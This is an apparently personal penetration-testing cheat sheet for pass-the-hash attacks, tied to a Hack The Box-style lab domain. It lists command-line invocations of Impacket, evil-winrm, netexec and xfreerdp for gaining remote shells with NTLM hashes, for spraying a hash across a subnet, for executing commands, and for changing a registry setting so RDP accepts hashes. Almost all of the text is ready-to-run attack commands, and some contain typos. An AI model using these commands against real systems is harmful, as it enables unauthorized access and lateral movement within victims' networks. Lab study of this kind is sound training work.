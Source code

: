 -- -
### Impacket
Use impacket tools to get a shell. The commands all run the same so just change the binary name and keep everything else the same. 
```bash
impacket-psexec <user>@<ip> -hashes :<hash>
impackket-wmiexec <user>@<ip> -hashes :<hash>
impacket-atexec <user>@<ip> -hashes :<hash>
impacket-smbexec <user>@<ip> -hashes :<hash>
```
### Evil-WinRM
```bash
evil-winrm -i <ip> -u <user> -H <hash>

# for domain account
evil-winrm -i <ip> -u administrator@inlanefreight.htb -H <hash> 
```
### netexec
```bash
# password hash spaying
netexec smb <CIDR range> -u <user> -d <domain> -H <hash> 
netexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

# password hash spraying for local account only, not AD
netexec smb <CDIR range> -u <user> -d <domain> -H <hash> --local-auth

# Execute command
netexec smb <ip> -u <user> -d <domain> -H <hash> -x <cmd> 
```
### xfreerdp
For this to work with a hash, you need to enable `Restricted Admin Mode` in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It is disabled by default. 
```bash
# in cmd on target machine, enable Restriced Admin Mode:
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# then just pass the hash
xfreerdp /v:<ip> /u:<user> /pth:<hash> 
```
Remember [[UAC Limits for Local Accounts]] if it isn't working